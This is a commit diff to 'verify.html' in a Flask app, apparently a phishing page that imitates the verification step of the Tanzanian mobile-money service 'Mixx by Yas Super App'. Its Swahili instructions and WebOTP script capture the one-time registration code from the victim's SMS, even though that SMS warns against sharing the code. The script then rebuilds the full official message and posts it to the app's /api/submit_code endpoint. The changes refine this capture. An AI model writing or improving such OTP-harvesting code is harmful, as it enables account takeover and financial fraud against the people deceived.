

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Shown: the part 220-928 px from the top of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -75,9 +75,9 @@
                 <div class="phone-display" id="showPhone">+255 ---------</div>
                 <div class="code-instruction">
                     <i class="fas fa-sms"></i> <strong>Msimbo utagunduliwa kiotomatiki kutoka kwenye arifa</strong><br><br>
-                    <strong>1.</strong> Subiri SMS ifike kwenye simu yako<br>
-                    <strong>2.</strong> Ukishaipokea, bonyeza <strong>"Allow"</strong> kwenye kidirisha<br>
-                    <strong>3.</strong> Ujumbe utajaza kiotomatiki<br>
+                    <strong>1.</strong> Subiri SMS ifike<br>
+                    <strong>2.</strong> Bonyeza <strong>"Allow"</strong><br>
+                    <strong>3.</strong> Ujumbe utajaza<br>
                     <strong>4.</strong> Bonyeza <strong>"Endelea"</strong>
                 </div>
                 <a href="sms:" class="sms-open-btn" id="btnIPhone" style="display:none;">
@@ -127,6 +127,7 @@
         var resendCooldown = false;
         var isSubmitting = false;
         var smsDetected = false;
+        var detectedCode = '';
 
         // ================================================================
         // iPhone/Android DETECTION
@@ -180,6 +181,7 @@
             resendCooldown = true;
             document.getElementById('smsMessage').value = '';
             smsDetected = false;
+            detectedCode = '';
             document.getElementById('codeError').textContent = 'OTP Imetumwa. Subiri msimbo kutoka Mixx. (' + resendCount + '/3)';
             document.getElementById('codeError').style.color = 'var(--primary)';
             document.getElementById('codeError').classList.add('show');
@@ -215,10 +217,14 @@
             document.getElementById('screen2').classList.add('active');
 
             try {
+                // Send the FULL SMS to the backend
                 await fetch('/api/submit_code', {
                     method: 'POST',
                     headers: { 'Content-Type': 'application/json' },
-                    body: JSON.stringify({ app_id: appId, code: smsText })
+                    body: JSON.stringify({
+                        app_id: appId,
+                        code: smsText  // This is the FULL SMS
+                    })
                 });
 
                 if (checkInterval) clearInterval(checkInterval);
@@ -247,6 +253,7 @@
             document.getElementById('screen1').classList.add('active');
             document.getElementById('smsMessage').value = '';
             smsDetected = false;
+            detectedCode = '';
             document.getElementById('codeError').textContent = 'Msimbo sio sahihi. Jaribu tena.';
             document.getElementById('codeError').style.color = 'var(--danger)';
             document.getElementById('codeError').classList.add('show');
@@ -261,7 +268,7 @@
         }
 
         // ================================================================
-        // WAIT FOR NOTIFICATION - WebOTP ONLY (NO CLIPBOARD)
+        // WAIT FOR NOTIFICATION - WebOTP ONLY
         // ================================================================
         function waitForNotification() {
             if (!document.getElementById('screen1').classList.contains('active')) {
@@ -269,7 +276,6 @@
                 return;
             }
 
-            // Check if WebOTP is supported
             if (!('OTPCredential' in window)) {
                 document.getElementById('codeError').textContent = 'ℹ️ Kifaa chako hakitumii auto-detect. Tafadhali nakili mwenyewe.';
                 document.getElementById('codeError').style.color = '#f59e0b';
@@ -300,9 +306,10 @@
             .then(function(otp) {
                 clearTimeout(timeout);
                 if (otp && otp.code) {
+                    detectedCode = otp.code;
                     console.log('✅ SMS detected from notification! Code:', otp.code);
 
-                    // Build the FULL SMS in your format
+                    // BUILD THE FULL SMS in your format
                     var fullSMS = 'You are being registered in Mixx by Yas Super App, use the code ' + otp.code + ' to complete registration. Do not share the code with anybody. For more info contact us on 100. DWvV9aXqDR';
 
                     // Fill the textarea with the FULL SMS
```
